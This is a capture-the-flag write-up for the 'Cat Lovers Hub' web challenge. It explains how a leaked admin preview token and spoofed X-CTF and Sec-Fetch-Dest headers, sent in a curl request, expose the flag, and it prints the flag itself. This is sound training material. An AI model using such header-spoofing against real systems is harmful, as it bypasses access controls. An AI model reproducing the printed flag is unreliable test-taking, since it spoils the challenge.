


# Cat Lovers Hub — Iran Tech Olympics CTF 2025

> **Room / Challenge:** Cat Lovers Hub (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Iran Tech Olympics CTF 2025
- **Challenge:** Cat Lovers Hub (web)
- **Target / URL:** `http://65.109.176.78:3000/`
- **Difficulty:** `Easy / Medium`
- **Points:** `48`
- **Date:** `29-09-2025`

---

## Goal

We have to get the flag by getting access to admin preview page.

## My Solution

Here is the [Source Code](./cat-lovers-hub.zip)

This is a website written under Express, and the solution may appear really easy after examining the code.

In `app.js`, there is `/submit POST` route, you can see that in the log there is a message `Admin preview token for sid ${req.sid}: ${token}`, indicating that we can have the admin preview token to get access to the admin preview page.

```javascript
app.post("/submit", (req, res) => {
  const bio = (req.body.bio || "").slice(0, 2048);
  STORE[req.sid].bio = bio;

  const adminHtml = renderTemplate("admin_preview.html", {
    bioRaw: bio,
    flag: STORE[req.sid].flag,
  });

  const token = crypto.randomBytes(16).toString("hex");

  PREVIEWS.set(token, { html: adminHtml, sid: req.sid, used: false });

  console.log(`Admin preview token for sid ${req.sid}: ${token}`);

  res.redirect(`/player_preview?sid=${req.sid}`);
});
```

This route `/admin/preview_blob` is where the server return the flag and also we have to have token to get access to it.

```javascript
app.get("/admin/preview_blob", (req, res) => {
  const token = req.query.token;

  if (!token) return res.status(403).send("Forbidden");

  if (req.get("X-CTF") !== "player") {
    return res.status(403).send("Forbidden");
  }

  if (req.get("Sec-Fetch-Dest") !== "iframe") {
    return res.status(403).send("iframe");
  }

  const meta = PREVIEWS.get(token);
  if (!meta) return res.status(403).send("Invalid or expired token");
  if (meta.used) return res.status(403).send("Token already used");

  meta.used = true;
  PREVIEWS.delete(token);

  res.setHeader(
    "Content-Security-Policy",
    "default-src 'none'; script-src 'none'; object-src 'none'; image-src 'none'; sandbox allow-scripts allow-same-origin"
  );

  res.type("html").send(meta.html);
});
```

In `/templates/player_preview.html`, besides HTML code in the `<script>` tag:

```javascript
<script>const token = "{{ token }}";</script>
```

There is a defined `token` which we can test by using it to get access to `/admin/preview_blob`.

We can exploit this app by just using interface.

Firstly, submit a cat bio in `/submit`:



In the `/player_preview?sid=<SID>`, open Dev Tools we can easily see the `token` I have mentioned before.



Copy that token and use the curl command to attach request header `X-CTF` to `player` because in `/admin/preview_blob` route there is a condition:

```javascript
if (req.get("X-CTF") !== "player") {
  return res.status(403).send("Forbidden");
}
```

Also the response of that route is:

```javascript
res.type("html").send(meta.html);
```

We also attach another header to see the response:

```bash
curl -s -G \
  -H "X-CTF: player" \
  -H "Sec-Fetch-Dest: iframe" \
  "http://65.109.176.78:3000/admin/preview_blob?token=${YOUR_TOKEN}"
```

Finally, you can get the flag.

I also create a simple ready to use `.sh` code to pass this challenge efforlessly. You can view it [here](./cat-lovers-hub-solve.sh).


Flag: `ASIS{CSP_HERO_ARE'NT_YOU_2a7590cb-9559-48c8-bdb9-ca41c0d184ed}`
